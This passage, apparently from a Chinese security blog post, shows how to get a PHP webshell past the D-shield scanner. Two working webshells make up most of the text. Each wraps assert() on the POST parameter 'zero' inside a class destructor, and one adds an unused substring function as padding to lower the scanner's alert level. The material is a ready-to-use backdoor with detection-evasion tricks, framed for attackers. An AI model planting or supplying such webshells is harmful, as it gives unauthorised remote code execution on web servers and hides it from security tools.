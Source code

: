 再来 D 盾杀一下  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZy26AQMwHib3EhCiaNPicVNA1uB3KtXAPYrJxTzx2xLG5ItboWSkFiaoPcRg/640?wx_fmt=png)  
不错 报 2 级了 这就是沙盒型查杀和正则类查杀的明显区别 怎么过呢 用构造方法即可

```
<?php

class pure
{
  public $a = '';
  function __destruct(){

    assert("$this->a");
  }
}
$b = new pure;
$b->a = $_POST['zero'];
function mysubstr($string, $start = 0, $length = null) {
    $result = '';
    $strLength = strlen($string);
    if ($length === null) {
        $length = $strLength;
    }
    $length = (int) $length;
    $start = $start < 0 ? ($strLength + $start) : ($start);
    $end = $length < 0 ? ($strLength + $length) : $start + $length;
    if ($start > $strLength || ($end - $start) === 0) {
        return $result;
    }
    for (; $start < $end; $start ++) {
        $result .= $string[$start];
    }
    return $result;
}
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyD9PIwOqNgkvLAViaGib9qSgEYKSGEPAP1GWF0RUroQTyKHKZlY696wuQ/640?wx_fmt=png)  
看到这里大家可能也很奇怪 这里都没用到 mysubstr 函数 放上去不是多此一举吗

不好意思 恰恰不是 我们可以去掉这个函数 用 D 盾杀一下

```
<?php

class pure
{
  public $a = '';
  function __destruct(){

    assert("$this->a");
  }
}
$b = new pure;
$b->a = $_POST['zero'];
?>
```
